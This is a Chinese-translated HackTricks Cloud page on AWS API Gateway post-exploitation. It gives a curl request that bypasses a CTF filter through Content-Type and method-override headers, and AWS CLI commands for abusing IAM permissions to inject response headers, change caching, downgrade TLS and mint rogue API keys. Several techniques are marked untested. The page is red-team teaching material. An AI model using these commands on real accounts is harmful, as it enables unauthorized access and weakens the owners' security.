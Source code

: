 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
学习和练习 AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习 GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交 PRs 分享黑客技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库。

</details>
{% endhint %}

## API Gateway

更多信息请查看:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### 访问未公开的 APIs

你可以在 [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) 创建一个服务 `com.amazonaws.us-east-1.execute-api` 的端点，将端点暴露在你有访问权限的网络中（可能通过 EC2 机器）并分配一个允许所有连接的安全组。\
然后，从 EC2 机器你将能够访问该端点，从而调用之前未公开的 gateway API。

### 绕过请求体直通

此技术在 [**这个 CTF writeup**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp) 中被发现。

如 [**AWS 文档**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) 中 `PassthroughBehavior` 部分所示，默认情况下，值 **`WHEN_NO_MATCH`** 在检查请求的 **Content-Type** 头时，将请求传递到后端而不进行转换。

因此，在 CTF 中，当请求发送带有 `Content-Type: application/json` 时，API Gateway 有一个集成模板 **阻止了 flag 在响应中被泄露**：

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

然而，发送一个带有 **`Content-type: text/json`** 的请求可以绕过该过滤器。&#x20;

最后，由于 API Gateway 只允许 `Get` 和 `Options`，可以通过在请求体中发送查询并使用头部 `X-HTTP-Method-Override: GET` 发送 POST 请求，从而发送任意 dynamoDB 查询而不受限制：

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

在**Enumeration**部分，你可以看到如何**获取密钥的使用计划**。如果你有密钥并且它**每月限制**使用X次，你可以**直接使用它并导致DoS**。

**API Key**只需要**包含**在一个名为**`x-api-key`**的**HTTP header**中。

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

具有`apigateway:UpdateGatewayResponse`和`apigateway:CreateDeployment`权限的攻击者可以**修改现有的Gateway Response以包含泄露敏感信息或执行恶意脚本的自定义header或响应模板**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在影响**: 泄露敏感信息、执行恶意脚本或未经授权访问API资源。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

具有`apigateway:UpdateStage`和`apigateway:CreateDeployment`权限的攻击者可以**修改现有的API Gateway阶段以将流量重定向到不同的阶段或更改缓存设置以获得未经授权的缓存数据访问**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在影响**: 未经授权访问缓存数据，干扰或拦截API流量。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

具有`apigateway:PutMethodResponse`和`apigateway:CreateDeployment`权限的攻击者可以**修改现有API Gateway REST API方法的方法响应，以包含泄露敏感信息或执行恶意脚本的自定义头或响应模板**。
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在影响**：泄露敏感信息、执行恶意脚本或未经授权访问API资源。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

具有`apigateway:UpdateRestApi`和`apigateway:CreateDeployment`权限的攻击者可以**修改API Gateway REST API设置以禁用日志记录或更改最低TLS版本，可能会削弱API的安全性**。
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在影响**: 削弱API的安全性，可能允许未经授权的访问或暴露敏感信息。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

具有 `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, 和 `apigateway:CreateUsagePlanKey` 权限的攻击者可以**创建新的API密钥，将其与使用计划关联，然后使用这些密钥进行未经授权的API访问**。
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**潜在影响**: 未经授权访问API资源，绕过安全控制。

{% hint style="info" %}
需要测试
{% endhint %}

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习AWS黑客技术</strong>!</summary>

支持HackTricks的其他方式:

* 如果你想在**HackTricks中为你的公司做广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边**](https://peass.creator-spring.com)
* 发现[**The PEASS Family**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs**](https://opensea.io/collection/the-peass-family)收藏
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交PRs到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库来分享你的黑客技巧**.

</details>
